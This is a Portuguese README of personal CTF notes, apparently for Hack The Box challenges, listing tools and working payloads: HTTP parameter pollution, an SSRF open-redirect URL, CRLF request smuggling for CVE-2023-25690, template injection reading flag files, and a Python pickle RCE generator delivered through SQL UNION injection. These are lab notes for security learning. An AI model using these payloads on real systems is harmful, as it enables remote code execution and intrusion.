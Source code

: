 ![b4201d8310215781eab5facfb3103dac](https://github.com/GGontijo/CTF-s/assets/38219914/397cfbd6-6baa-4565-b266-c6cb1800a00f)
<h1 align="center">Dicas e usos de ferramentas</h1>
<h3 align="center">Técnicas, Vulnerabilidades e Ferramentas que usei para referências em desafios futuros</h3>


### Eternal Loop:
- fcrackzip

### Photon Lockdown:
- unsquashfs

### 0xBOverchunked:
- sqlmap

### HTBank:
- HTTP Parameter Polution (HPP):
    ```
    curl --location 'http://94.237.55.42:33198/api/withdraw' \
    --form 'account="0"' \
    --form 'amount="0"' \ # Precisa ser zero para o payload passar
    --form 'amount="1337"' #
    ```

### Saturn:
- SSRF (Server Side Request Forgery)

### ProxyAsAService:
- Open Redirect Attack
    ```
    http://94.237.60.170:33195/?url=@0.0.0.0:1337/debug/environment
    ```

### ApacheBlaze:
- HTTP Request Smuggling Attack (CVE-2023–25690)
    ```
    http://94.237.48.205:56566/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/
    ```
    https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection

### RenderQuest:
- https://webhook.site/ -> Injection content {{.FetchServerInfo "cat /flag*"}} 

### C.O.P:
- Pickle Remote Code Execution
    ```
    import pickle
    import base64
    import os

    payload = 'cp flag.txt application/static/.' # Payload

    class RCE:
        def __reduce__(self):
            return os.system, (payload,)

    if __name__ == '__main__':
        print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
    ```
    ```
    Injetar payload:
    
    GET http://94.237.49.121:31295/view/' UNION SELECT 'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg==
    ```

    Recuperar flag:
    ```
    GET http://94.237.49.121:31295/static/flag.txt
    ```

### EasterBunny:
